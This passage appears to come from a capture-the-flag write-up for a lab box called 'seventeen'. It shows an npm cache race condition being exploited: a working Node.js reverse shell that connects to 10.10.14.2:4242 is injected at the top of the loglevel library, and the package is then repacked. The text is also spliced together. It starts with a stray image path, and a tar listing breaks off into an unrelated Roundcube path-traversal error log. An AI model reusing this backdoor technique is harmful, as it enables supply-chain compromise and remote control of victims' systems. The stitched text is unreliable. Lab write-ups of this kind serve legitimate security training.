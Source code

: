 [+] Starting the app
```

Ok I've found the package in the ```.npm``` folder within ```kavis``` home directory but while I browsed to it, it got deleted. So we are talking about a ```race condition```.

```
kavi@seventeen:~/.npm/loglevel/1.8.0/package$ cd ..
cd: error retrieving current directory: getcwd: cannot access parent directories: No such file or directory
```

I've spun up the script again  and with a second SSH session I've copied the package to the home directory:

```
kavi@seventeen:/$ cp -r ~/.npm/loglevel ~
kavi@seventeen:/$ ls ~
loglevel
```

I've decompressed the ```package.tgz``` and edited the ```/lib/loglevel.js``` where I injected a nodejs revershell from revshells.com on the top
```
kavi@seventeen:~/loglevel/1.8.0$ head -n 30 package/lib/loglevel.js 
/*
* loglevel - https://github.com/pimterry/loglevel
*
* Copyright (c) 2013 Tim Perry
* Licensed under the MIT license.
*/
(function(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("sh", []);
    var client = new net.Socket();
    client.connect(4242, "10.10.14.2", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/; // Prevents the Node.js application from crashing
})();

(function (root, definition) {
    "use strict";
    if (typeof define === 'function' && define.amd) {
        define(definition);
    } else if (typeof module === 'object' && module.exports) {
        module.exports = definition();
    } else {
        root.log = definition();
    }
}(this, function () {
    "use strict";
```

I've repacked the package:
```
kavi@seventeen:~/loglevel/1.8.0$ rm package.tgz 
kavi@seventeen:~/loglevel/1.8.0$ tar -cvzf package.tgz package/
package/
package/dist/
package/dist/loglevel.min.js
package/dist/loglevel.js
package/CONTRIBUTING.md

[08-Apr-2022 17:55:26 +0000]: PHP Error: No plugin class ../../../../../../../../../var/www/html/oldmanagement/files/31234/papers found in /var/www/html/mastermailer/plugins/../../../../../../../../../var/www/html/oldmanagement/files/31234/papers/../../../../../../../../../var/www/html/oldmanagement/files/31234/papers.php in /var/www/html/mastermailer/program/lib/Roundcube/rcube_plugin_api.php on line 188 (GET /mastermailer/)